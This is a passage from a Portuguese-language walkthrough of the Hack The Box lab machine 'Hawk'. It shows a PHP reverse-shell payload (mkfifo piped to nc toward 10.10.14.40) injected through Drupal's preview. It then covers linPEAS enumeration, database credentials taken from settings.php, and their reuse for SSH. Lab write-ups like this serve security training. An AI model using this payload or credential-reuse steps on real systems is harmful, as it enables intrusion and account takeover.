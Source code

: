 Agora preenchemos os campos e pegamos um reverse shell, ao clicar em `Preview` (lembrar de ter o nc aberto na Kali e alterar o Text Format para `PHP Code`)

`<?php system('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.40 443 >/tmp/f'); ?>`

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-hawk/H_drupal5.png)

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-hawk/H_drupal6.png)

Bom, vamos iniciar a escalação de privilégio

# Escalação de Privilégio - www-data -> Daniel

Primeiro passo é rodar o linPEAS

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-hawk/H_lin.png)

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-hawk/H_lin1.png)

> https://raw.githubusercontent.com/carlospolop/privilege-escalation-awesome-scripts-suite/master/linPEAS/linpeas.sh

Baixamos pra nossa máquina

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-hawk/H_lin2.png)

Executamos na máquina Hawk

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-hawk/H_lin3.png)

A única coisa que chamou atenção foi o fato de ter um banco de dados sendo executado na máquina localmente (porta 3306)

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-hawk/H_lin4.png)

Sendo assim, possivelmente tem credenciais lá no /var/www, onde a página web faz as requisições para o base de dados, então vamos verificar lá. Encontramos as senhas em `/var/www/html/sites/default/settings.php`

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-hawk/H_lin5.png)

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-hawk/H_lin6.png)

```
'username' => 'drupal',                                                                  
'password' => 'drupal4hawk',
```

Bom, tendo um login e senha agora, e sabendo que tem o usuário daniel na máquina, podemos tentar usar essas credenciais com ele

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-hawk/H_lin7.png)

Então fazemos a conexão SSH com ele
